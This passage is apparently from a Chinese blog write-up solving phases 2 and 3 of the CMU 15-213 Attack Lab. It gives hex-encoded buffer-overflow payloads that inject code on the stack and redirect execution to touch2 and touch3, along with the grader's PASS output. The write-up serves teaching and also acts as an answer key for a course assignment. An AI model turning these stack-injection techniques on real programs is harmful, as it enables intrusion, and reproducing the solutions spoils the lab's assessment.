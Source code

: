 从这里我们就可以发现`%rsp`存放的栈顶指针地址是`0x5561dc78`。这样我们就拥有了完成攻击的全部准备工作，我们只需要输入如下的`phase2.txt`即可。

```txt
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```

```asm
root@384ad3e1766c:~/CMU-15213/Lab/Attack# ./ctarget -q < phase2-raw.txt
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:48 C7 C7 FA 97 B9 59 68 .......
```

phase2结束，芜湖！
# phase3

这道题看起来和`phase2`很类似，也是劫持`getbuf`函数并调用`touch3`，但不同的是在`touch3`里又额外调用了`hexmatch`函数。这里需要我们传入的参数`sval`为`cookie`的十六进制表示，通过查阅ASCII表可以知道是`35 39 62 39 39 37 66 61`这个字符串。

这里很自然的想法是该字符串“塞进”注入代码的后面，像这个样子：

```txt
48 c7 c7 88 dc 61 55 68     /* code to be injeceted */   
fa 18 40 00 c3 00 00 00
35 39 62 39 39 37 66 61     /* 0x5561dc78 + 2*0x8 = 0x5561dc88 */   
00 00 00 00 00 00 00 00     
00 00 00 00 00 00 00 00    
78 dc 61 55 00 00 00 00     /* jump to code injected to buffer */
```

但运行后会发现出现传入的字符串变成了一组乱码，这是因为`hexmatch`函数的调用覆盖了我们的字符串。所以我们需要考虑将字符串的存放地址移动到`test`函数的栈帧中，即放到原本`ret`指令的后面。

```txt
48 c7 c7 b0 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
00 00 00 00 00 00 00 00
35 39 62 39 39 37 66 61   /* 0x5561dc78 + 7*0x8 = 0x5561dcb0 */
```

后续操作就和`phase2`大同小异了，也是顺利注入了:)

